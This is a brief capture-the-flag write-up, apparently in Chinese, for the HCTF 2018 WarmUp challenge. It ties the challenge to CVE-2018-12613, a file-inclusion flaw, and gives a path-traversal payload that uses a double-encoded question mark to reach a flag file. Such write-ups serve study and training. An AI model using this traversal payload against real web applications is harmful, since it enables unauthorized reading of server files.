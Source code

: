 # \[HCTF 2018]WarmUp

## \[HCTF 2018]WarmUp

## wp

CVE-2018-12613&#x20;

文件包含的问题 hint.php 有提示 flag 位置&#x20;

payload：`?file=source.php%253f/../../../../ffffllllaaaagggg`
